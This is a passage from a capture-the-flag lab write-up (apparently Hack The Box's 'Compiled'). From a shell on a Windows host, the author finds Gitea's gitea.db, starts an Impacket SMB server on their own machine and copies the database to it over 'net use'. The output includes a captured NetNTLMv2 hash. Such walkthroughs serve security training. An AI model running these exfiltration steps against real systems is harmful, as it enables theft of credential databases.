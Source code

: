 # shell as emily
Enumerate the file system, we can find a `gitea.db`
```
C:\Program Files\Gitea\data>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 352B-98C6

 Directory of C:\Program Files\Gitea\data

07/26/2025  07:57 AM    <DIR>          .
07/26/2025  07:57 AM    <DIR>          ..
05/22/2024  08:08 PM    <DIR>          actions_artifacts
05/22/2024  08:08 PM    <DIR>          actions_log
05/22/2024  08:08 PM    <DIR>          attachments
05/22/2024  08:08 PM    <DIR>          avatars
07/26/2025  07:30 AM    <DIR>          gitea-repositories
07/26/2025  07:57 AM         2,023,424 gitea.db
05/22/2024  08:08 PM    <DIR>          home
05/22/2024  08:08 PM    <DIR>          indexers
05/22/2024  08:08 PM    <DIR>          jwt
05/22/2024  08:08 PM    <DIR>          lfs
05/22/2024  08:08 PM    <DIR>          packages
05/22/2024  08:08 PM    <DIR>          queues
05/22/2024  08:08 PM    <DIR>          repo-archive
05/22/2024  08:08 PM    <DIR>          repo-avatars
07/26/2025  07:14 AM    <DIR>          sessions
05/24/2024  05:32 PM    <DIR>          tmp
               1 File(s)      2,023,424 bytes
              17 Dir(s)  10,428,272,640 bytes free

```

Let's download it to our local machine
Firstly open the `smb` service on the local machine 
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled]
└─$ smbserver.py share . -username wither -password wither -smb2support
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.26,52678)
[*] AUTHENTICATE_MESSAGE (\wither,COMPILED)
[*] User COMPILED\wither authenticated successfully
[*] wither:::aaaaaaaaaaaaaaaa:151d5d52463068a9a83cc996d13a1628:01010000000000008012bc2447fedb01b0e052fab4827d4100000000010010004d006b005800410067006b0073006100030010004d006b005800410067006b0073006100020010004600720072004c005200790051005500040010004600720072004c005200790051005500070008008012bc2447fedb0106000400020000000800300030000000000000000000000000200000a5a97a6b46103864de6aab1f5dec5adbb2e631b8f6698a032cc399166f23cba10a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0035000000000000000000
```
Then connect to `smb` and copy the database to that
```
C:\Program Files\Gitea\data>net use \\10.10.14.5\share /u:wither wither
net use \\10.10.14.5\share /u:wither wither
The command completed successfully.

C:\Program Files\Gitea>copy "data\gitea.db" "\\10.10.14.5\share\gitea.db"

```